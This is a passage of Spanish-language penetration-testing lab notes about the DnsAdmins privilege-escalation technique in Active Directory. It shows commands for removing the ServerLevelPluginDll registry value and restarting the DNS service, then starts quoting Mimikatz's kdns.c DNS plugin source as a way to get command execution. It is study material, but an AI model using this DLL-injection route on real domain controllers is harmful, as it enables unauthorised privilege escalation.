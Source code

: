 * `reg query \<host>\HKLM\...` consulta la rama de registro remota. La salida debe mostrar `ServerLevelPluginDll    REG_SZ    adduser.dll` si la clave quedó establecida.

2. **Eliminar la clave que apunta a la DLL**

```cmd
reg delete \\\\10.129.43.9\\HKLM\\SYSTEM\\CurrentControlSet\\Services\\DNS\\Parameters  /v ServerLevelPluginDll

Delete the registry value ServerLevelPluginDll (Yes/No)? Y
The operation completed successfully.

```

* `reg delete <ruta> /v <valor>` elimina el valor de registro `ServerLevelPluginDll`. El comando pedirá confirmación `(Yes/No)?`.

3. **Iniciar el servicio DNS** (ahora que no apunta a la DLL)

```cmd
sc.exe start dns
```
```cmd

C:\htb> sc query dns

SERVICE_NAME: dns
        TYPE               : 10  WIN32_OWN_PROCESS
        STATE              : 4  RUNNING
                                (STOPPABLE, PAUSABLE, ACCEPTS_SHUTDOWN)
        WIN32_EXIT_CODE    : 0  (0x0)
        SERVICE_EXIT_CODE  : 0  (0x0)
        CHECKPOINT         : 0x0
        WAIT_HINT          : 0x0
```

* Si la eliminación fue correcta, el servicio arrancará normalmente y `sc query dns` deberá mostrar `STATE: 4 RUNNING`.

4. **Verificar funcionamiento DNS**

* Ejecutar `nslookup` contra localhost u otro host para comprobar resolución.

---

## Uso alternativo: `mimilib.dll` (Mimikatz integrado)
[Publicación](https://www.labofapenetrationtester.com/2017/05/abusing-dnsadmins-privilege-for-escalation-in-active-directory.html)
La publicación muestra como utilizar [mimilib.dll](https://github.com/gentilkiwi/mimikatz/tree/master/mimilib) del creador de mimikatz para obtener ejecución de comandos modificando el archivo [`kdns.c`](https://github.com/gentilkiwi/mimikatz/blob/master/mimilib/kdns.c).

El archivo contiene funciones que implementa un plugin DNS. Explicación de las partes claves:
```c
/*	Benjamin DELPY `gentilkiwi`
	https://blog.gentilkiwi.com
	benjamin@gentilkiwi.com
	Licence : https://creativecommons.org/licenses/by/4.0/
*/
#include "kdns.h"

DWORD WINAPI kdns_DnsPluginInitialize(PLUGIN_ALLOCATOR_FUNCTION pDnsAllocateFunction, PLUGIN_FREE_FUNCTION pDnsFreeFunction)
{
	return ERROR_SUCCESS;
}

DWORD WINAPI kdns_DnsPluginCleanup()
{
```